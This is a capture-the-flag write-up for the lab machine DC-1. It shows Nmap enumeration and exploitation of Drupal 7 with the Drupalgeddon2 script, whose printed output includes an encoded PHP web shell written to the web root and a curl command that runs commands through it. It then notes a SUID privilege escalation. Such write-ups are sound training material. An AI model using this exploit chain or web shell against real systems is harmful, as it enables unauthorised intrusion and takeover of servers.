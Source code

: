 # PG Play - DC-1

#### Ip: 192.168.176.195
#### Name: DC-1
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.193
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:05 CDT
Nmap scan report for 192.168.244.193
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
40238/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -sC -sV 192.168.244.193 -p 22,80,111,40238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:07 CDT
Nmap scan report for 192.168.244.193
Host is up (0.066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35685/udp6  status
|   100024  1          40238/tcp   status
|   100024  1          56691/udp   status
|_  100024  1          58362/tcp6  status
40238/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.51 seconds
```

Heading to the site we find we are working with Drupal here.

site.png

Nmap also found a `/robots.txt` page for us with several entries:

robots.png

Kicking off a Nikto scan against the target we see it is running Drupal 7. This version is associated with several vulnerabilities. 

Using https://www.exploit-db.com/exploits/44449 we can get easy code execution on the target.

### Exploitation

We can run:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ ruby drupalgeddon2.rb http://192.168.244.193
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.244.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.244.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.244.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://192.168.244.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/database.inc    (HTTP Response: 403)
[+] URL    : v7.x/6.x?
[+] Found  : http://192.168.244.193/    (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: http://192.168.244.193/    (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo PLBVJBLR
[+] Result : PLBVJBLR
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.244.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.244.193/shell.php' -d 'c=hostname'
DC-1>> hostname
DC-1
DC-1>> whoami
www-data
```

Lets use this pseudo-shell to spawn a proper reverse shell:

shell.png

Cool, now that we have a working shell, lets grab the local.txt flag:

user_flag.png

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

transfer.png

Interesting, LinPEAS finds that `find` has the SUID bit set. 

find.png

This should make for an easy privesc. Heading over to https://gtfobins.github.io/gtfobins/find/ we find the command we need:

gtfo.png

Lets run that:

root.png

Nice, that worked! We can now grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------
